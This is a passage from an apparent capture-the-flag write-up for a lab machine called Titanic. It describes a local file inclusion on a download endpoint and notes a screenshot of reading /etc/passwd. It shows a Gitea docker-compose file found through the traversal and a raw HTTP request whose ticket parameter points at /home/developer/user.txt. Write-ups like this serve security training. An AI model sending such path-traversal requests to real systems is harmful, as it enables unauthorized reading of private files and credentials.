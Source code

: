 ![](images/2025-02-15_20-28_80_lfi_etc_passwd.png)

This is possible because the `application` was running in a `container` with a `shared volume` and therefore we could `traverse the filesystem`.

- [http://dev.titanic.htb/developer/docker-config/src/branch/main/gitea/docker-compose.yml](http://dev.titanic.htb/developer/docker-config/src/branch/main/gitea/docker-compose.yml)

```c
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

### user.txt

The `LFI` also allowed us to directly access the `user.txt`.

```c
GET /download?ticket=/home/developer/user.txt HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```